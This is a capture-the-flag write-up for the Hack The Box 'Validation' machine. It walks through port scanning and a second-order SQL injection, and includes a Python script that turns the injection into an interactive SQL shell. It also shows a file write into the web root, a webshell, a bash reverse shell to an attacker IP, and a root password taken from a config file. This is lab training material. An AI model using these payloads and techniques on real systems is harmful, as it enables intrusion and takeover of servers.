 # [Validation](https://app.hackthebox.com/machines/Validation)

```bash
nmap -p- --min-rate 10000 10.10.11.116 -Pn
```

![Alt text](img/image.png)

After discovering open ports, let's do greater scan for these open ports.

```bash
nmap -A -sC -sV -p22,80,4566,8080 10.10.11.116
```

![Alt text](img/image-1.png)


Let's see web application on port (80).

![Alt text](img/image-2.png)


I started to `SQLI` payloads by adding quote character, web app doesn't response properly.

![Alt text](img/image-3.png)

I just think that for `country` parameter, I can do SQL Injections while I can enumerate db.

```bash
=Brazil' union select user();-- -
```

I enter this input and results back like this.

![Alt text](img/image-4.png)


It means, it is `Second-order SQL Injection`.


I wrote `Python` script such below.

```python
#!/usr/bin/env python3

import random
import requests
from bs4 import BeautifulSoup
from cmd import Cmd


class Term(Cmd):

    prompt = "> "

    def default(self, args):
        name = f'dr4ks-{random.randrange(1000000,9999999)}'
        resp = requests.post('http://10.10.11.116/',
                headers={"Content-Type": "application/x-www-form-urlencoded"},
                data={"username": name, "country": f"' union {args};-- -"})
        soup = BeautifulSoup(resp.text, 'html.parser')
        if soup.li:
            print('\n'.join([x.text for x in soup.findAll('li')]))

    def do_quit(self, args):
        return 1

term = Term()
term.cmdloop()
```


I have proper SQL CLI.

![Alt text](img/image-5.png)


Now, I will try to write some txt data into web application folder ("/var/www/html/dr4ks.txt")

```bash
select "dr4ks was here!" into outfile '/var/www/html/dr4ks.txt'
```

![Alt text](img/image-6.png)


Let's write malicious PHP webshell into here.

![Alt text](img/image-7.png)


Now, I can execute commands from `dr4ks.php` webshell which I upload now.

![Alt text](img/image-8.png)


Now, I will add reverse shell payload  (URL ENCODED) into here.
```bash
bash -c "bash -i >& /dev/tcp/10.10.16.7/1337 0>&1"
```

![Alt text](img/image-9.png)

I got reverse shell from port (1337).

![Alt text](img/image-10.png)


user.txt

![Alt text](img/image-11.png)


I found `config.php` file on '/var/www/html' directory which contains sensitive credentials.

![Alt text](img/image-12.png)


That's the password of `root` user.

root: uhc-9qual-global-pw

root.txt

![Alt text](img/image-13.png)
